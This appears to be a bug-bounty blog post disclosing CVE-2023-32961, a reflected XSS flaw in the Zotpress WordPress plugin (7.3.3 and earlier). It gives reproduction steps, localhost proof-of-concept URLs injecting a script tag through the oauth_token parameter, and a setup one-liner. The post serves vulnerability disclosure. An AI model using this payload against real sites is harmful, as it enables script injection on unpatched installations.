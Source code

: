 ```yaml
---
layout: post
date: 2023-05-16
title: "CVE-2023-32961 Analysis"
tags: [webhacking, ]
categories: [bugbounty, WordPress, ]
---
```




### Component details


---



#### Component name


Zotpress



#### Vulnerable version


≤ 7.3.3



#### Component slug


zotpress



#### Component link


[https://wordpress.org/plugins/zotpress/](https://wordpress.org/plugins/zotpress/)



### Pre-requisite


---


Unauthenticated



### Vulenerability details


---



#### Short description


`get_request_token` function in `zotpress/lib/admin/admin.accounts.oauth.php` is vulnerable to a XSS attack.



#### How to reproduce (PoC)

1. Install the oauth php extension to trigger the vulnerability. (This is Zotpress's optional)
2. Login to [zotero.org](http://zotero.org/)
3. Conditions must be met for the `get_request_token` function to execute. (first time only)
Send a payload like this: `http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token=1`
4. Send a below payload
`http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token="><script>alert(1)</script>`


#### Additional information

- You need a [zotero.org](http://zotero.org/) account.
- You need to set the oauthState value to 1 to trigger it. If the above payload doesn't work, you need to find a way to set oauthState to 1.
	- conditional expression :

		
{% raw %}
```php
		$_GET['oauth_token'] != $state['request_token_info']['oauth_token']
```
{% endraw %}


- Easy to install php oauth extension:
	- One Line Command :

		
{% raw %}
```shell
		sudo su; apt-get update; apt-get -y install gcc make autoconf libc-dev pkg-config libpcre3-dev; pecl install oauth; bash -c "echo extension=oauth.so > $PHP_INI_DIR/conf.d/oauth.ini"; service apache2 restart
```
{% endraw %}


- Tested in wordpress:latest Docker image.


#### PoC Video


{% include embed/youtube.html id='5kZ7bNbs_-Q' %}



### References


---


[CVE-2023-32961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32961)

